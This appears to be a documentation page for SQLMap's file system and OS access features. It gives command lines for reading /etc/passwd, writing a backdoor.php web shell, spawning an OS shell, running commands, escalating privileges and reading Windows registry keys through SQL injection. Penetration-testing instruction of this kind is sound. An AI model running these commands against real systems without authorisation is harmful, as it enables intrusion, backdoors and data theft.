 ```yaml
---
title: File System Access
description: Learn how to access the file system through SQL injection vulnerabilities using SQLMap
---
```


SQLMap can leverage SQL injection vulnerabilities to interact with the underlying file system of the database server. This capability varies depending on the database management system (DBMS) and the privileges of the database user.

## Reading Files (--file-read)

To read files from the database server's file system:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-read="/etc/passwd"
```

This attempts to read the specified file from the server's file system. The file content will be stored in the SQLMap output directory.


## Writing Files (--file-write and --file-dest)

To write files to the database server's file system:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="local_file.php" --file-dest="/var/www/html/backdoor.php"
```

This command:
1. Takes a local file (local_file.php)
2. Uploads it to the target server
3. Saves it at the specified destination path (/var/www/html/backdoor.php)


## OS Shell Access (--os-shell)

SQLMap can attempt to gain operating system shell access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell
```

This tries to leverage the SQL injection vulnerability to spawn a shell on the target system. SQLMap will attempt various techniques based on the DBMS:

- For MySQL: Uses `INTO OUTFILE` to write a web shell
- For Microsoft SQL Server: Uses `xp_cmdshell`
- For PostgreSQL: Uses `COPY TO/FROM` or UDF injection
- For Oracle: Uses Java or external table features

## OS Command Execution (--os-cmd)

To execute a single operating system command:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="id"
```

This executes the specified command on the target system and returns the output.

## Privilege Escalation

Some database systems allow for privilege escalation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --privileges --is-dba
```

This checks if the current database user has administrative privileges. If not, SQLMap can sometimes attempt privilege escalation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc
```

## Registry Access (Windows)

On Windows systems, SQLMap can access the registry:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --reg-read --reg-key="HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
```

This reads the specified registry key from a Windows target system.

